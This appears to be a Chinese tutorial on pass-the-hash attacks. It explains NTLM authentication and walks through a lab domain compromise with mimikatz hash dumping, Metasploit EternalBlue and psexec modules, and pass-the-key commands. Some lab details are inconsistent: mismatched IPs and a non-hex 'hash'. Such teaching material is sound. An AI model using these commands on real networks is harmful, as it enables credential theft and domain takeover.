







# 哈希传递攻击

## 1.1 哈希传递攻击原理

### 1.1.1 基于NTLM的身份认证

​    NTLM是NT LAN Manager的缩写，NTLM是基于挑战/应答的身份验证协议，是 Windows NT 早期版本中的标准安全协议。NTLM验证是一种Challenge/Response 验证机制，由三种消息组成:通常称为type 1(协商)，类型type 2(质询)和type 3(身份验证)。

**1）本地认证**

在进行本地认证的过程中，当用户登录时，系统将用户输入的明文密码加密成 NTLM Hash，与SAM数据库中的 NTLM Hash 进行比较，从而实现认证：winlogon.exe -> 接收用户输入 -> lsass.exe -> (认证)。

**2）网络认证**

NTLM是一种基于质询/应答 （Challenge/Response ）消息交换模式的认证机制，常用于工作组和域环境下登录场景的身份认证。

- 交互式认证 ：使用域账号登录到客户端；涉及两部分（客户端、域控）
- 非交互式认证 ：在已经登陆 的客户端上使用 SSO的方式访问一台服务器；涉及三部分（客户端、域控、服务器）

**NTLM 协议的认证过程有三步：**

- 协商：主要用于确认双方协议版本（NTLMv1、NTLMv2等）
- 质询：质询/应答 （Challenge/Response）模式，用于消息交换
- 验证：验证身份合法性，通常由 Server端或 DC完成这个过程

1. `    使用用户名和密码尝试登录客户端`
2. `    客户端对密码进行哈希处理并缓存密码 hash，丢弃实际的明文密码(不存储)，然后将用户名发送到服务器，发起认证请求`
3. `    服务器生成一个 16字节的随机数，称为质询 (Challenge) 或随机数 (nonce.aspx)，并发送给客户端`
4. `    客户端使用缓存的用户密码的 Hash 对此Challenge 进行加密，加密结果为 Response（暂且叫做Challenge1），然后将结果发送给服务器`
5. `    服务器发送三项数据给域控制器：`
6. `    User name`
7. `    发送给客户端的 Challenge（已加密）`
8. `    从客户端接收到的Response`
9. `    域控制器使用 User name从 AD中检索该用户密码的 NTLM Hash，并使用此 NTLM Hash来加密Challenge ，然后把这个值和客户端计算的响应值（Challenge1）进行比较。如果它们相同，则验证成功`


### 1.1.2 哈希传递攻击

哈希传递攻击（Pass The Hash),通过找到账户相关的密码散列值（通常是NTLM Hash）来进行攻击。在域环境中，用户登录计算机使用的大都是域账号，大量计算机在安装时会使用相同的本地管理员账号和密码，**因此如果计算机中本地管理员账号和密码也相同**，攻击者就能使用哈希传递攻击的方式登录到内网中的其他计算机。

通过哈希传递攻击，攻击者不需要花时间破解密码散列值。

哈希传递攻击的利用前提是我们获得了某个用户的密码哈希值，但是解不开明文。这时我们可以利用NTLM认证的一种缺陷，利用用户的密码哈希值来进行NTLM认证。

## 1.2 哈希传递攻击技术

**1） 哈希传递攻击的基本流程**

1. 获得一台域主机的权限
2. Dump内存获得用户hash
3. 通过pass the hash尝试登录其他主机
4. 继续搜集hash并尝试远程登录
5. 直到获得域管理员账户hash，登录并控制域控，


**2）哈希传递攻击的实验场景**

下图是一个模拟的内网环境，其中有四台机器：

- Windows Server 2019(DC)：域控制器主机， IP：192.168.20.134， 主机名DC，域名secknow.com
- Windows 7:IP：192.168.20.103，主机名testad。
- Windows 7:IP：192.168.20.103，主机名bg_user01。
- Windows Server 2003：域内主机，IP：192.168.20.166，主机名。




### 1.2.1 跳板机本地用户

**实验条件：**假设攻击者已经获得了某内网中一台Windows7（IP：192.168.20.103）的控制权，该主机属于WORKGUOUP组，不在域中。同时另一台Windows7主机（IP:192.168.20.123）Administrator账号密码和Windows7（IP：192.168.20.103）密码一致。

**实验目的：**通过跳板机Windows7（IP：192.168.20.103）控制Windows7主机（IP:192.168.20.126）。

#### 1）攻击思路

首先要明白哈希传递攻击在在工作组环境中利用的前提条件：

- Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。
- Windows Vista 之后的机器，**只能是administrator用户**的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问。

注意：有些Windows7主机禁用了Administrator用户，进行实验时取消了该限制。



#### 2）使用mimikatz进行PTH

**a、获取跳板机Administrator账号的Hash**

首先要通过提权到system权限才可以导出hash值，然后利用本地保存的hash去登录内网的其他机器，还可以执行批量的操作。

* 从lsass进程中获取Hash：privilege::debug; sekurlsa::msv

* 获取全部用户的密钥和明文：privilege::debug sekurlsa::logonpasswords

* SAM数据库获取用户Hash：

  ```bash
  privilege::debug
  token::elevate
  lsadump::sam
  ```

获取到的Administrator账号的NTLM Hash为：4d6e43b2cdc951808100f5b1d09aac63

**b、添加Administrator账号Hash到lsass进程中**

然后，在Windows7主机上用mimikatz将获取到的Administrator的Hash添加到lsass进程中。

```cmd
privilege::debug 

sekurlsa::pth /user:administrator /domain:workgroup /ntlm:4d6e43b2cdc951808100f5b1d09aac63
```

**c、在新shell中执行操作**

成功后会弹出一个新的shell,此时可以在不使用明文密码访问远程主机或服务。

- 查看DC主机进程信息： tasklist  \\\DC.secknow.com\c$
- 上传文件到DC主机： copy  filename  \\\\DC.secknow.com\c$
- 使用at创建计划任务
- ......


#### 3）使用MSF进行PTH攻击

**a、先利用永恒之蓝漏洞拿到跳板机控制权**

```
 search ms17-010
 use  exploit/windows/smb/ms17_010_eternalblue
 set rhosts 192.168.52.103
 exploit
```

**b、获取跳板机Hash**

利用MSF中的kiwi模块获取跳板机器的Hash

```bash
meterpreter > load  kiwi    //加载kiwi模块
meterpreter > creds_msv     //获取Hash
```



**c、使用psexec模块哈希传递攻击目标机器**

以exploit/windows/smb/psexec模块哈希传递攻击Windows7（IP:192.168.20.126）

```shell
use exploit/windows/smb/psexec
set rhosts 192.168.52.126
set smbuser administrator
# 完整的Administrator用户的Hash
set smbpass 00000000000000000000000000000000:4d6e43b2cdc951808100f5b1d09aac63  
set smbdomain workgruop
run
```



登录到新的Windows7主机后，重复上述步骤，继续收集hash，并尝试登录到其他主机，直到获得域管理员账户hash，登录域控。最终成功控制整个域。


### 1.2.2 跳板机是域用户

**实验条件：**只能是域管理员组内用户(可以是域管理员组内非administrator用户)的哈希值才能进行哈希传递攻击，攻击成功后，可以访问域内任何一台机器。内网环境信息如下：

* 域:secknow.com
* 域控：DC.secknow.com
* 普通域主机：Windows7:192.168.20.103, 主机名bgusers
* 普通域主机：Windows Server:192.168.20.166, client
* 域管理员：admin
* 域普通账号：testad

假设攻击者已经获得了某内网域环境中一台Windows7（IP：192.168.20.103）的控制权(拥有本地Administrator权限和域管理员admin权限)。

**实验目的：**通过跳板机Windows7（IP：192.168.20.103）控制域主机（IP:192.168.20.134）和Windows Server(IP：192.168.20.166)。

#### 1）使用Mimikatz进行PTH

在域环境中，当我们获得了域管理员组内用户的NTLM哈希值，我们可以使用域内的一台主机用mimikatz对域内任何一台机器(包括域控)进行哈希传递攻击。执行完命令后，会弹出CMD窗口，在弹出的CMD窗口我们可以访问域内任何一台机器。前提是我们必须拥有域内任意一台主机的本地管理员权限和域管理员的密码NTLM哈希值。

**a、获取跳板机Hash**

上传mimikatz到主机Windows7（IP：192.168.20.103），以管理员权限运行mimikatz，执行下面指令：

```cmd
mimikatz # privilege::debug 
mimikatz # sekurlsa::msv
```

完成后得到域管理员admin账号Hash: 7dshbfiehdc951808100f5b1d09aac63


**b、获取跳板机Hash**

使用mimikatz进行PTH攻击，执行命令：

```
sekurlsa::pth /user:admin /domain:secknow.com /ntlm:7dshbfiehdc951808100f5b1d09aac63
```

备注：这里我使用域用户admin的NTLM Hash进行测试，未成功。可能与域管理员组账号有关。

(通过将LocalAccountTokenFilterPolicy设置为1，也还是可以使用普通管理员账号进行哈希传递攻击)


**C、在新的shell中任意访问域内主机**




#### 2）使用Metasploit进行PTH

**a、先利用漏洞拿到跳板机控制权**

这里由于目标机器是Windows7，直接利用永恒之蓝进行攻击。

```bash
 search ms17-010
 use  exploit/windows/smb/ms17_010_eternalblue
 set rhosts 192.168.52.103
 exploit
```

**b、获取跳板机Hash**

拿到跳板机权限后，在meterpreter中利用kiwi模块获取跳板机器的Hash，相关的配置：

```shell
meterpreter > load  kiwi
meterpreter > creds_msv
```

攻击成功，得到跳板机账号HASH。




**c、使用psexec进行PTH攻击**

新开msfconsole，执行以下命令，可拿到Server 2012主机权限

```shell
use exploit/windows/smb/psexec
set rhosts 192.168.52.126
set smbuser administrator
# 完整的Administrator用户的Hash
set smbpass 00000000000000000000000000000000:1909ef3ef90ddc79af551ac8a39ba4de  
set smbdomain secknow.com
run
```

成功后拿到主机192.168.20.126的控制权。



#### 3）使用AES进行Key传递攻击(PTK,Pass The Key)

只适用于域环境，并且目标主机需要安装 KB2871997补丁。域控未打 KB2871997 补丁前，无法使用 Key传递攻击

**a、使用mimikatz获取AES凭证**

```cmd
privilege::debug 
#获取kerberos加密凭证
sekurlsa::ekeys    
```

​      

b、**利用获得到的AES256或AES128进行Key攻击**

```cmd
privilege::debug 
#使用AES-256进行Key传递攻击 
sekurlsa::pth /user:administrator /domain:xie.com /aes256:1a39fa07e4c96606b371fe12334848efc60d8b3c4253ce6e0cb1a454c7d42083

#使用AES-128进行Key传递攻击 sekurlsa::pth /user:administrator /domain:xie.com /aes128:4728551c859bbe351e9c11b5d959163e
```


### 1.2.3 其他的PTH工具

#### 1）微软psexec工具

下载地址： https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

#### 2）msf中的psexec

#### 3）Invoke-Mimikatz.ps1

这个是mimikatz的powershell版本，也经常用于在内网渗透中，相对于exe的版本会方便许多。

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1

#### 4）CrackMapExec

该工具也可以导出hash，而且还是批量的，

[Installation - CrackMapExec ~ CME WIKI (porchetta.industries)](https://wiki.porchetta.industries/getting-started/installation)

#### 5）wmic 类工具

`wmiexec`是windows自带的`wmic`的加强版，在渗透过程中使用`wmiexec`会比`wmic`和`psexec`更加方便，这里就介绍几种常用的`wmiexec`工具进行渗透。

## 1.3 参考资料

[NTLM 用户身份验证 - Windows Server | Microsoft Docs](https://docs.microsoft.com/zh-cn/troubleshoot/windows-server/windows-security/ntlm-user-authentication)

[内网渗透 | 哈希传递攻击(Pass-the-Hash,PtH) - 腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1937060)

[内网渗透测试：域用户组及域内权限划分 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/283765.html)

[(3条消息) 内网环境下的横向移动总结_红队蓝军的博客-CSDN博客](https://blog.csdn.net/hongduilanjun/article/details/125917005)

https://zhuanlan.zhihu.com/p/472019671